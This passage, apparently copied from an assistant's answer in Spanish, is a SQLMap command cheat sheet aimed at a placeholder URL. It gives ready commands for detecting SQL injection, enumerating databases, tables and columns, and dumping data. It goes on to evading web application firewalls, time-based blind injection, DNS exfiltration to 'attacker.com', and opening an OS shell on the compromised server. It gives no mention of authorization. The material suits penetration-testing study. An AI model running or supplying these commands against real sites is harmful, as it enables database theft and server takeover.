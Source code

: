 
1. **Identificación de Vulnerabilidades de Inyección SQL**: SQLMap puede probar una URL específica para identificar si es vulnerable a inyección SQL.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1"`
    
2. **Enumeración de Bases de Datos**: Una vez que se haya identificado una vulnerabilidad, se pueden enumerar las bases de datos disponibles.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`
    
3. **Enumeración de Tablas**: Después de identificar las bases de datos, se pueden enumerar las tablas dentro de una base de datos específica.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" -D nombre_de_base_de_datos --tables`
    
4. **Enumeración de Columnas**: Una vez que se tienen las tablas, se pueden enumerar las columnas dentro de una tabla específica.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" -D nombre_de_base_de_datos -T nombre_de_tabla --columns`
    
5. **Extracción de Datos**: Finalmente, se pueden extraer datos de una columna específica.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" -D nombre_de_base_de_datos -T nombre_de_tabla -C nombre_de_columna --dump`
    

### Uso Avanzado de SQLMap

1. **Uso de Archivos de Peticiones HTTP**: SQLMap puede utilizar archivos de peticiones HTTP para realizar pruebas más complejas.
    
    bash
    
    Copiar código
    
    `sqlmap -r request.txt`
    
2. **Bypass de WAF (Firewall de Aplicaciones Web)**: SQLMap tiene varias opciones para evadir WAFs.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" --random-agent --tamper=space2comment`
    
3. **Pruebas de Inyección SQL Ciegas (Blind SQL Injection)**: Para manejar inyecciones SQL ciegas, SQLMap puede utilizar técnicas de tiempo.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=T --time-sec=5`
    
4. **Automatización de Ataques**: SQLMap puede realizar múltiples pruebas de inyección SQL en diferentes parámetros de una URL.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1&name=test&age=20" --batch`
    
5. **Uso de Proxy para Auditoría**: SQLMap permite configurar un proxy para monitorizar las peticiones.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="http://localhost:8080"`
    
6. **Ataques Basados en DNS**: SQLMap puede utilizar técnicas de exfiltración de datos a través de DNS.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" --dns-domain="attacker.com"`
    
7. **Ejecución de Comandos del Sistema Operativo**: SQLMap permite la ejecución de comandos del sistema operativo en el servidor comprometido.
    
    bash
    
    Copiar código
    
    `sqlmap -u "http://example.com/vulnerable.php?id=1" --os-shell`